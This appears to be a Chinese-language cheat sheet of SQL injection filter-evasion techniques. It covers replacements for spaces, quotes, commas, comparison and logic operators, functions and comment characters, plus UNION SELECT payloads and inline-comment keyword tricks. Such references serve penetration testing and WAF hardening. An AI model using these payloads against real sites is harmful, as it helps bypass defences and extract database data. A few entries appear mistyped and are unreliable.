 ### 1. 空格被过滤

| 符号 | 替换内容               |
| ---- | ---------------------- |
| 空格 | %20  (标准空格)        |
| 空格 | %09  (tab键，水平)     |
| 空格 | **%0a  (换行符)**      |
| 空格 | %a0  (不间断空格)      |
| 空格 | **%0b  (tab键，垂直)** |
| 空格 | %0c  (新的一页)        |
| 空格 | %0d(回车符)            |
| 空格 | %00(NULL字符)          |

### 2. 单引号被过滤

#### (1)进制转换

* 将字符转换为16进制，不使用单引号

```
	select * from users where username='Dumb'
=>	select * from users where username=0x44756d62
```

#### (2). 编码绕过

##### a. 一次编码

```
'  =>  %27
```

##### b. 二次编码

* 代码中须有**addslashes()**和**urldecode()或rawurldecode()**

```
'  =>  %2527
```

### 3. 逗号被过滤

```
1. from for
	select substr(database(),1,1);
	=> select substr(database() from 1 for 1);
2. join
	select 1,2,3
	=> select * from (select 1)a join (select 2)b join (select 3)c
3. offset
	select * from users limit 0,1;
	=> select * from users limit 1 offset 0;
```

### 4. 逻辑判断符被过滤

```
1. 等于号(=)绕过
	①1' or 1=1  =>  1' or 1<>1
	②1' or 1=1  =>  1' or 1 like 1a
2. 单个比较符的绕过
	①sqlmap可以使用between脚本，用greatest()返回给定表达式中最大值，least()返回给定表达式中最小值
		select * from users where id=1 and ascii(substr(user(),1,1))>100
		=> select * from users where id=1 and greatest(ascii(substr(user(),1,1)),100)=100
	②使用字符编码
		a. 实体编码   < => &lt;   > =>  &gt;
		b. ASCII码	< => %3C	> =>  %3E 
		c. Unicode编码	< => \u003C   > =>  \u003E
	③使用替代函数
		<  => CHAR(60)   >  =>  CHAR(62)
```

### 5. or and xor not绕过

```
1. 使用逻辑判断符替代
	and  =>  &&
    or   =>  ||
    xor  =>  |
    not  =>  !
2. 使用内联注释
	/*!and*/、/*!%23/*%0aand*/
```

### 6. 函数过滤

```
1. sleep()	=> benchmark(10000000,md5(1))

2. ascii()  =>  ord()

3. hex()、bin()  =>  ascii()

4.  group_concat()	=>  concat_ws()
		例如：select group_concat(1,' -- ',1,' -- ',1)  => select concat_ws(' -- ',1,1,1)
		
5. substr()  =>  mid()、substring()、left()、right()

6. user()  =>  @@user

7. datadir()  =>  @@datadir
```

### 7. 括号被过滤

```
1. %28、%29  =>  ()
```

### 8. 注释被过滤

```
1.  --   =>   #

2.  -- 、#   =>  '
	例：-1' union select 1,2,3 #  =>  -1' union select 1,2,3 ||'
```

### 9. 常见绕过方式

```
1. 绕过关键字检测
    a. 普通注释符：user() --> user/*//--//*/()  或  user/*%!a*/()
    b. 内联注释符：from  -->  /*!%23/*%0aform*/
    c. 大小写替换
    d. 重复关键字
    e. 编码绕过
    	URL编码： or 1=1  =>  %6f%72%20%31%3d%31
    	ASCII编码：		 
    	HEX编码：	敏感字符或关键字使用16进制替代，例：~  =>  0x7e
    	unicode编码：
2. 绕过2个及以上检测语句
union select  --> union/*//--//*/select
union select 1,2,3 -->   union /*!--+/*%0aselect/*!1,2,*/ 3
```

